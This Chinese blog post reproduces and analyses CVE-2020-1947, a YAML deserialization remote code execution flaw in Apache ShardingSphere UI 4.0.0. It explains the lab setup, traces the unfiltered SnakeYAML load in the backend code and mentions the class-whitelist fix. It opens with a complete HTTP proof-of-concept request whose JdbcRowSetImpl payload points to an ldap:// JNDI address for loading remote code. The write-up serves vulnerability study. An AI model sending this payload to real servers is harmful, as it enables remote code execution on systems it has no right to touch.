

# CVE-2020-1947: Apache ShardingSphere&UI 漏洞复现分析 - ph4nt0mer - 博客园

> 原文：[`www.cnblogs.com/ph4nt0mer/p/12469473.html`](https://www.cnblogs.com/ph4nt0mer/p/12469473.html)

首先给出网上的 poc：

```
POST /api/schema HTTP/1.1 Host: 127.0.0.1:8088 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 Firefox/73.0 Accept: application/json, text/plain, */* Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Access-Token:你的登陆后的 token
Content-Length: 582
Origin: http://127.0.0.1:8088
DNT: 1
Connection: close
Referer: http://127.0.0.1:8088/

{"name":"CVE-2020-1947","ruleConfiguration":"  encryptors:\n    encryptor_aes:\n      type: aes\n      props:\n        aes.key.value: 123456abc\n    encryptor_md5:\n      type: md5\n  tables:\n    t_encrypt:\n      columns:\n        user_id:\n          plainColumn: user_plain\n          cipherColumn: user_cipher\n          encryptor: encryptor_aes\n        order_id:\n          cipherColumn: order_cipher\n          encryptor: encryptor_md5","dataSourceConfiguration":"!!com.sun.rowset.JdbcRowSetImpl\n  dataSourceName: ldap://.com/CommandObject\n  autoCommit: true"}
```

前期准备：

docker——zookeeper

incubator-shardingsphere 的二进制文件或者 src 源码 4.0.0.版本

[`shardingsphere.apache.org/document/current/cn/downloads/`](https://shardingsphere.apache.org/document/current/cn/downloads/)

启动 docker-zookeeper

docker pull zookeeper

docker run -d -p 2181:2181 --name one-zookeeper --restart always bbebb888169c

进入 docker exec -it bd5f8ddd6d6e bash 运行./bin/zkCli.sh  检查 zookeeper 是否正常。

当显示 welcome 的时候，表示运行正常。



然后运行在二进制的 bin 目录下的 start.sh 文件里多加一些内容。

JAVA_OPTS=" -server -Xmx1g -Xms1g -Xmn512m -Xss256k -XX:+DisableExplicitGC -XX:+UseConcMarkSweepGC -XX:+CMSParallelRemarkEnabled -XX:LargePageSizeInBytes=128m -XX:+UseFastAccessorMethods -XX:+UseCMSInitiatingOccupancyOnly -XX:CMSInitiatingOccupancyFraction=70 -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005"

-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005  增加这一段，表示 idea 开启 debug 到 5005 端口

然后运行启动


打开 127.0.0.1:8088，默认账号密码：admin/admin

注册 docker 的 zookeeper 的地址

 选择激活

然后发送最上面的 poc，将在 dnslog 上收到 dns 记录。


jndi 的利用方式就可以了，poc 代码像 fastjson 的反序列化链。所以本质也是一个反序列化的过程中，触发了漏洞。修复当然也是对反序列化的实例的类进行白名单验证。

* * *

接下来是漏洞原因分析

根据 mvc 的框架的经验，找到控制器 Controller 类。

/java/sharding-ui-bin/lib/sharding-ui-backend-4.0.0.jar!/org/apache/shardingsphere/ui/web/controller/ShardingSchemaController.class

在 43 处打断点

```
    public ResponseResult addSchema(@RequestBody ShardingSchemaDTO shardingSchema) { this.shardingSchemaService.addSchemaConfiguration(shardingSchema.getName(), shardingSchema.getRuleConfiguration(), shardingSchema.getDataSourceConfiguration()); return ResponseResultUtil.success();
    }
```

进入 addSchemaConfiguration 函数，在实现 ShardingSchemaService 接口的 ShardingSchemaServiceImpl 类里，

```
    public void addSchemaConfiguration(String schemaName, String ruleConfiguration, String dataSourceConfiguration) { this.checkSchemaName(schemaName, this.getAllSchemaNames()); this.checkRuleConfiguration(ruleConfiguration); this.checkDataSourceConfiguration(dataSourceConfiguration); this.persistRuleConfiguration(schemaName, ruleConfiguration); this.persistDataSourceConfiguration(schemaName, dataSourceConfiguration);
    }
```

代码很简单，感觉就这几行代码里就跟到了。根据已有的 dataSourceName，猜测触发的地方应该是

```
this.checkDataSourceConfiguration(dataSourceConfiguration); 
```

```
this.persistDataSourceConfiguration(schemaName, dataSourceConfiguration); 
```

 里。通过变量值也能看到 dataSourceConfiguration 里含有 poc 的代码。


跟踪第一个 checkDataSourceConfiguration。

进入 checkDataSourceConfiguration 函数，看下代码

```
    private void checkDataSourceConfiguration(String configData) { try {
            Map<String, DataSourceConfiguration> dataSourceConfigs = ConfigurationYamlConverter.loadDataSourceConfigurations(configData);
            Preconditions.checkState(!dataSourceConfigs.isEmpty(), "data source configuration is invalid.");
        } catch (Exception var3) { throw new IllegalArgumentException("data source configuration is invalid.");
        }
    }
```

```
ConfigurationYamlConverter.loadDataSourceConfigurations(configData);看函数名是加载配置 data。configData 的值是：


进去跟进 loadDataSourceConfigurations

```
    public static Map<String, DataSourceConfiguration> loadDataSourceConfigurations(String data) {
        Map<String, YamlDataSourceConfiguration> result = YamlEngine.unmarshal(data);
        Preconditions.checkState(null != result && !result.isEmpty(), "No available data sources to load for orchestration."); return Maps.transformValues(result, new Function<YamlDataSourceConfiguration, DataSourceConfiguration>() { public DataSourceConfiguration apply(YamlDataSourceConfiguration input) { return (new DataSourceConfigurationYamlSwapper()).swap(input);
            }
        });
    }
```

YamlEngine.unmarshal(data);这块，

```
    public static Map<?, ?> unmarshal(String yamlContent) { return (Map)(Strings.isNullOrEmpty(yamlContent) ? new LinkedHashMap() : (Map)(new Yaml()).load(yamlContent));
    }
```

非空的话，yaml().load 就 yamlContent。


那就没问题了，没有任何过滤，那就是 yaml 反序列化导致的 rce。


yaml 反序列化话可以学习一下这篇文章。[`zhuanlan.zhihu.com/p/84957848`](https://zhuanlan.zhihu.com/p/84957848)

也可以用 marshalsec.SnakeYAML 生成 poc。注意 poc 合适，snakeYAML 对空格什么的格式很敏感。


```